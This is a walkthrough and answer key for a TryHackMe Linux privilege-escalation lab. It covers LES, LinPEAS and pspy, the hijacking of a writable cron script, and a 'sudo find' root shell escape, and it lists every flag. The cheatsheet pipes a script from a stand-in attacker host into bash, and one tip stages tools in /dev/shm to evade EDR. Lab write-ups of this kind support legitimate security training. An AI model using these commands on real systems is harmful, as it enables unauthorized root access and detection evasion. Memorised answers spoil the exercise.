

# Room Documentation: Linux Privilege Escalation: Automation

---

## 1. Room Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 13 — Privilege Escalation (`13-PRIVILEGE-ESCALATION`)
* **Room Name:** Linux Privilege Escalation: Automation
* **Room Slug:** `linprivautomation`
* **Direct URL:** [TryHackMe Linux Privilege Escalation: Automation](https://tryhackme.com/room/linprivautomation)
* **Difficulty Level:** Medium
* **Room Type:** Walkthrough & Practical Exploitation Lab
* **Assessment Scenario:** Automated host enumeration, public software exploit vetting, real-time unprivileged process snooping with `pspy`, and chained multi-hop privilege escalation
* **Total Tasks:** 6 Tasks
* **Total Questions:** 7 Questions (100% Solved and Verified)

---

## 2. Executive Summary

The **Linux Privilege Escalation: Automation** room advances operators from manual inspection into automated reconnaissance, public vulnerability vetting, and dynamic runtime process inspection. In time-sensitive authorized assessments, automated frameworks serve as crucial force multipliers.

This room covers four core operational pillars:
1. **Automated Enumeration Tools:** Utilizing Linux Exploit Suggester (LES), LinPEAS, and LinEnum to rapidly surface software CVE candidates, identifying `CVE-2025-32463` as the top-priority exploit.
2. **Public Exploit Evaluation & Deployment:** Vetting, compiling, and safely executing proof-of-concept exploits to achieve root privileges (`THM{splo1ts-r-public}`).
3. **Unprivileged Process Monitoring with `pspy`:** Overcoming the polling blind spot through inotify-driven process snooping to capture recurring root tasks (`/var/local/syslog-backup.sh`), exploiting world-writable permissions to harvest root credentials (`THM{getting-root-with-pspy}`).
4. **Capstone Challenge Execution:** Performing a multi-hop escalation chain: moving horizontally from user `john` to user `frank` (`THM{Frank_Pwned_Privesc}`), followed by vertical escalation to `root` via `sudo find` GTFOBins execution (`THM{Priv_Ch@l_D0ne}`).

---

## 3. Automation & Attack Architecture

The diagram below maps the automated discovery and multi-hop exploitation lifecycle:



---

## 4. Theoretical Foundations & Core Concepts

### Automation as a Force Multiplier:
* Automated scripts standardize audit procedures, ensuring that subtle misconfigurations (e.g., hidden capabilities, obscure sudo rights) are not missed due to analyst fatigue.
* Analysts must understand the underlying system checks performed by tools like LinPEAS and LES to interpret findings accurately.

### The Polling Blind Spot:
* Standard commands (`ps aux`, `top`) take discrete snapshots of the process table at fixed intervals.
* Background cron jobs or system maintenance scripts that execute and terminate within fractions of a second evade snapshot detection, requiring event-driven tools like `pspy`.

---

## 5. Automated Enumeration Tools (LES & LinPEAS)

* **Linux Exploit Suggester Execution:**
  ```bash
  ./les.sh
  ```
  The tool compares target kernel and OS versions against an offline vulnerability database, returning **`CVE-2025-32463`** as the first candidate exploit.

---

## 6. Public Exploit Evaluation & Execution

* **Inspection & Compilation:**
  Inspect source code to confirm safe execution without destructive system calls:
  ```bash
  gcc exploit.c -o exploit
  ./exploit
  cat /root/flag.txt
  # Output: THM{splo1ts-r-public}
  ```

---

## 7. Real-Time Process Snooping with `pspy`

* **The Inotify Mechanism:**
  `pspy` places kernel inotify watches on `/etc`, `/usr`, `/tmp`, and `/var`. When a filesystem event occurs, `pspy` immediately scans `/proc` to extract execution details without requiring root privileges:
  ```bash
  ./pspy64
  ```
* **Discovery:**
  Identified recurring cron task: `/var/local/syslog-backup.sh`.
* **Exploitation:**
  The script possesses `0777` permissions (world-writable). Appending a command writes the flag to a readable path:
  ```bash
  echo 'cat /root/flag.txt > /tmp/root_flag.txt && chmod 777 /tmp/root_flag.txt' >> /var/local/syslog-backup.sh
  cat /tmp/root_flag.txt
  # Output: THM{getting-root-with-pspy}
  ```

---

## 8. Multi-Stage Capstone Challenge Breakdown

### Phase 1: Horizontal Movement (`john` ⟶ `frank`):
* Locate and exploit shared scripts or tasks associated with user `frank`.
* Transition to user `frank` and capture user flag:
  ```bash
  cat /home/frank/flag.txt
  # Output: THM{Frank_Pwned_Privesc}
  ```

### Phase 2: Vertical Escalation (`frank` ⟶ `root`):
* Audit `sudo -l` permissions for user `frank`:
  ```bash
  sudo -l
  # Output: User frank may run (root) NOPASSWD: /usr/bin/find
  ```
* Execute GTFOBins escape:
  ```bash
  sudo /usr/bin/find . -exec /bin/sh \; -quit
  cat /root/flag.txt
  # Output: THM{Priv_Ch@l_D0ne}
  ```

---

## 9. Task-by-Task Solutions & Breakdown

### Task 01: Introduction
* **Answer:** `No answer needed`

### Task 02: Automated Enumeration Tools
* **Question:** Run Linux Exploit Suggester to enumerate the target host. What CVE is listed as the first Possible Exploit the target is vulnerable to?
* **Answer:** `CVE-2025-32463`

### Task 03: Privilege Escalation: Public Exploits
* **Question:** Exploit the previously identified vulnerability. What is the content of /root/flag.txt?
* **Answer:** `THM{splo1ts-r-public}`

### Task 04: pspy - Unprivileged Process Monitoring
* **Question 1:** What is the full path of the script vulnerable to privilege escalation?
  * **Answer:** `/var/local/syslog-backup.sh`
* **Question 2:** What is the flag in /root/flag.txt?
  * **Answer:** `THM{getting-root-with-pspy}`

### Task 05: Challenge
* **Question 1:** What are the contents of /home/frank/flag.txt?
  * **Answer:** `THM{Frank_Pwned_Privesc}`
* **Question 2:** What are the contents of /root/flag.txt?
  * **Answer:** `THM{Priv_Ch@l_D0ne}`

### Task 06: Conclusion
* **Answer:** `No answer needed`

---

## 10. Operational Security & Best Practices

* **Forensic Footprint Management:** Running extensive enumeration scripts creates thousands of filesystem reads and process forks, triggering high-severity alerts in modern EDR solutions. Stage automated tools in memory (`/dev/shm`) whenever possible.
* **Source Code Vetting:** Never execute precompiled binaries or public exploits from untrusted sources without performing manual code review.

---

## 11. Defensive Engineering & Remediation

1. **Vulnerability Patching:** Regularly update system packages and kernel builds to resolve vulnerabilities surfaced by automated scanners.
2. **Secure Scheduled Tasks:** Ensure scripts executed by cron or systemd timers have permissions set strictly to `0700` owned by `root:root`.
3. **Restrict Sudo Delegation:** Avoid granting `NOPASSWD` sudo execution on versatile utilities like `find`.

---

## 12. Cheatsheet & Command Reference

| Action | Command | Purpose |
| :--- | :--- | :--- |
| **Suggest Exploits** | `./les.sh` | Identify potential kernel/software CVEs |
| **Monitor Processes** | `./pspy64` | Real-time process snooping via inotify |
| **LinPEAS Execution** | `curl -sL http://attacker/linpeas.sh \| bash` | In-memory automated enumeration |
| **Sudo Find Escape** | `sudo find . -exec /bin/sh \; -quit` | Drop into root shell via find |

---

## 13. References & Next Steps

1. [PEASS-ng Project](https://github.com/peass-ng/PEASS-ng)
2. [pspy Process Snooping](https://github.com/DominicBreuker/pspy)
3. [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
4. [GTFOBins Find Reference](https://gtfobins.github.io/gtfobins/find/)

### Next Room in Module 13:
Advance to Room 05:
**`05-WINDOWS-PRIVILEGE-ESCALATION`** to master privilege escalation methodologies across Microsoft Windows environments.
